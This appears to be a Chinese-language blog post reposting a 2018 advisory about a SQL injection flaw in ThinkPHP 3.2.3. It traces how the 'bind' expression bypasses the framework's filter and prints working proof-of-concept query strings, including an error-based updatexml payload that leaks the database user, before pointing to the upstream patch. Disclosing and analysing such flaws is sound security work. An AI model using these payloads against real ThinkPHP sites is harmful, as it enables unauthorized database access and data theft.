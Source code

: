 title: Thinkphp3.2.3发现SQL注入漏洞！
author: hojun
avatar: /images/favicon.png
authorDesc: 一个好奇的人
categories: 技术
date: 2018-04-16 19:40:40
authorLink:
authorAbout:
tags:
 - thinkphp
 - php
keywords: SQL注入漏洞
description: 安全客文章报道发现Thinkphp3.2.3最新版SQL注入漏洞！还使用Thinkphp3.2.3版本的小伙伴赶紧去github上更新补丁
photos:
 - https://wx2.sinaimg.cn/large/006bYVyvgy1fqeqiwzno1j30au0643yf.jpg
---
![](https://wx2.sinaimg.cn/large/006bYVyvgy1fqeqiwzno1j30au0643yf.jpg)
安全客文章报道发现Thinkphp3.2.3最新版SQL注入漏洞！还使用Thinkphp3.2.3版本的小伙伴赶紧去github上更新补丁！

----------


## **漏洞详情**
由于框架实现安全数据库过程中在update更新数据的过程中存在SQL语句的拼接，并且当传入数组未过滤时导致出现了SQL注入。

thinkphp系列框架过滤表达式注入多半采用I函数去调用think_filter
```php
function think_filter(&$value){
    if(preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i',$value))
```
有没有相关tips来达到I函数绕过呢？是可以的。
一般按照官方的写法，thinkphp提供了数据库链式操作，其中包含连贯操作和curd操作，在进行数据库CURD操作去更新数据的时候：
举例update数据操作。
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqbe8b70j30jm0c4mz4.jpg)
直接看框架的where子单元函数，之前网上公开的exp表达式注入就是从这里分析出来的结论:
Thinkphp/Library/Think/Db/Driver.class.php
其中除了exp能利用外还有一处bind，而bind可以完美避开了think_filter：

```php
elseif('bind' == $exp ){ // 使用表达式
    $whereStr .= $key.' = :'.$val[1];
}elseif('exp' == $exp ){ // 使用表达式
    $whereStr .= $key.' '.$val[1];
```

这里由于拼接了`$val`参数的形式造成了注入，但是这里的bind表达式会引入:符号参数绑定的形式去拼接数据，通过白盒对几处CURD操作函数进行分析定位到update函数，insert函数会造成sql注入，于是回到上面的updateh函数。
Thinkphp/Library/Think/Db/Driver.class.php
接着跟进execute函数，这里有处对$this->queryStr进行字符替换的操作：

```php
$this->queryStr =   strtr($this->queryStr,array_map(function($val) use($that){ return '''.$that->escapeString($val).'''; },$this->bind));
```

具体是什么，我这里写了一个实例：
常规的跟新数据库用户信息的操作：
Application/Home/Controller/UserController.class.php
```php
<?php
namespace HomeController;
use ThinkController;
class UserController extends Controller {
    public function index(){
        $User = M("member");
        $user['id'] = I('id');
        $data['money'] = I('money');
        $data['user'] = I('user');
        $valu = $User->where($user)->save($data);
        var_dump($valu);
    }
}
```
根据进来的id更新用户的名字和钱，构造一个简单一个poc
id[]=bind&id[]=1’&money[]=1123&user=liao
当走到execute函数时sql语句为：
```sql
UPDATE `member` SET `user`=:0 WHERE `id` = :1'
```
然后`$that = $this`
![](https://wx3.sinaimg.cn/large/006bYVyvgy1fqeqb93u9aj30f203cmxk.jpg)
然后下面的替换操作是将”:0”替换为外部传进来的字符串，这里就可控了。
![](https://wx3.sinaimg.cn/large/006bYVyvgy1fqeqb43ayyj30hs016mx5.jpg)
替换后：
![](https://wx3.sinaimg.cn/large/006bYVyvgy1fqeqbjj36jj30ea03bwew.jpg)
明显发现之前的user参数为:0然后被替换为了liao，这样就把:替换掉了。
后面的:1明显是替换不掉的：
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqims50kj30xk07nmyj.jpg)
那么我们将id[1]数组的参数变为0呢？
id[]=bind&id[]=0%27&money[]=1123&user=liao
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqirsj4qj312y08bwgd.jpg)
果然造成了注入：
POC:
money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
![](https://wx1.sinaimg.cn/large/006bYVyvgy1fqeqj21mpsj311h06kq4e.jpg)

----------


## **修复方式**
更新最新补丁
https://github.com/top-think/thinkphp/
[原文地址](https://www.anquanke.com/post/id/104847)www.anquanke.com/post/id/104847
